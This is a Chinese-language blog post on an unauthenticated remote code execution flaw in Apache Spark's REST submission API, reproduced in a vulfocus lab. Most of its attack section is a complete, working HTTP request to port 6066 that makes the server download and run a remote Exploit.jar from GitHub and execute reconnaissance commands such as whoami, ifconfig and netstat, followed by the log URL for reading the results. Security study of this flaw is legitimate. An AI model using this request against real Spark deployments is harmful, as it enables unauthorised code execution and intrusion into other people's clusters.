 ```yaml
---
title: Spark未授权访问RCE
layout: post
post-image: /assets/images/spark.jpg
description: Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Spark未授权访问RCE

​                                                                                                                       ——花无名    

## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](/assets/images/20211106/image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

`POST /v1/submissions/create HTTP/1.1`
`Host: your-ip:6066`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Accept-Language: en`
`User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)`
`Content-Type: application/json`
`Connection: close`
`Content-Length: 680`

`{`
  `"action": "CreateSubmissionRequest",`
  `"clientSparkVersion": "2.3.1",`
  `"appArgs": [`
    `"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"`
  `],`
  `"appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",`
  `"environmentVariables": {`
    `"SPARK_ENV_LOADED": "1"`
  `},`
  `"mainClass": "Exploit",`
  `"sparkProperties": {`
    `"spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",`
    `"spark.driver.supervise": "false",`
    `"spark.app.name": "Exploit",`
    `"spark.eventLog.enabled": "true",`
    `"spark.submit.deployMode": "cluster",`
    `"spark.master": "spark://your-ip:6066"`
  `}`
`}`

![image-20211106111209048](/assets/images/20211106/image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](/assets/images/20211106/image-20211106111440687.png)